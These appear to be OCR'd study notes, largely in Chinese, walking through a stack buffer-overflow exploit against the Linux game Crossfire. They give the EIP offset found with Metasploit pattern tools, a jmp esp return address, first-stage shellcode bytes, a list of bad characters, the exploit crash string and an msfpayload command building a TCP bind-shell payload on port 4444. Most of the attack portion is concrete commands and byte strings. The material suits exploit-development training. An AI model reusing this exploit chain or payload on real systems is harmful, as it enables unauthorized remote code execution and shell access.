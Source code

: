 - 解压
    - /usr/games
    - tar zxpf crossfire.tar.gz
- 调试
    - edb --run /usr/games/crossfire/bin/crossfire
    - 01.py


#### FUZZING

- 唯一字符串识别 EIP 精确位置
    - /usr/share/metasploit-‐framework/tools/pattern_create.rb 4379
    - 02.py
    - /usr/share/metasploit-‐framework/tools/pattern_offset.rb 46367046
    - 4368
- 03.py


#### FUZZING

- 思路：
- 第一阶段shellcode
    - ESP 跳转到 EAX
    - 偏移 12 个字节
- setup sound shellcode2
- /usr/share/metasploit-‐framework/tools/nasm_shell.rb
    - add eax,12
    - jmp eax
    - \x83\xc0\x0c\xff\xe0\x90\x90


#### FUZZING

- 查找坏字符
    - \x00\x0a\x0d\x20


#### FUZZING

- ESP 跳转地址
    - Opcode serach
    - crash = "\x41“ * 4368 + "\x97\x45\x13\x08“ + "\x83\xc0\x0c\xff\xe0\x90\x90"
- 设断点（0x08134597）
    - EIP—— 08134597
    - jmp esp
    - add eax, 12
    - jmp eax


#### FUZZING

- msfpayload linux/x86/shell_bind_tcp LPORT=4444 R | msfencode - b

##### "\x00\x0a\x0d\x20"

- 05.py
